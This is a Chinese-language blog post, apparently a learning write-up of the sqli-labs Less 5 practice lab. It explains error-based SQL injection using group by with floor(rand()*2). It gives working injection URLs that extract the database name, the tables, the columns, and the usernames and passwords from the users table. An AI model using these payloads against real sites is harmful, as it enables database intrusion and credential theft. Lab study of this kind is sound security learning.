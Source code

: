 ```yaml
---
layout: post
title:  "我的SQL（2）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-19
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup（基于sqli-labs的less 5）
首先注入

>### `?id=1`

`You are in……`我一脸懵逼，十万脸懵逼。what？不显示。不信邪的我继续尝试`id=2` `id=3`还是一样。看了下源码，fwrite都没有，就是说，他什么都不会显示。简直让人害怕不已。嗯~要换点方法。

在网上搜了一下，哦？！需要构造 一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。哈哈哈心动了，开干。（下面附上sql的一些随机语句）



1. ### `select rand()`          	  		    0~1 之间的随机值

----------

2. ### `select rang()*2` 	     	  	 	    0~2 之间的随机值
	
----------

3. ### `select floor(rand()*2)`     		    0 1 两个整数随机出现
 
----------

4. ### `select database()` 	        	    当前数据库
 
----------

5. ### `select concat((select database()),0x20,floor(rand()   *2))a` 	                       			{当前数据库}{空格}{0 1中的一个}


开干开干哈哈哈哈哈。

>### `?id=0' select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：count(*)表示全部字段，count(字段名)表示该字段。a是别名，是用来group by的别名。这个随意填写方便就好。0x20是空格的16制码。其他的都能看懂的啦哈哈哈）

第一次`You are in……`别担心，没随机到而已。刷新几遍哈哈出来了。`Duplicate entry 'security 1' for key ''` ok!数据库名出来了。就可以运用前面less1-4的语句来获取信息啦。首先

>### `?id=0' select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema='security'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：`group_concat(distinct table_name)`这个是显示security里的所有字段。和less1-4有点区别。不过都可以吧只是一个快一个要慢慢地用limit来偏移而已。）

啦啦啦获得users。继续继续

>### `?id=0' union select 1,count(*),concat((select group_concat(distinct column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

得到字段id，username，password。
继续下一步。

>### `?id=0' union select 1,count(*),concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

Flag取到。走人。哈哈哈哈哈。

# 总结

### 这里与以往的不一样。展现的是一个更为普遍的事例。因为通常没有人那么傻去把信息显示出来。所以很多时候就需要用到这个随机方法。技能已get。待下次的研究学习。
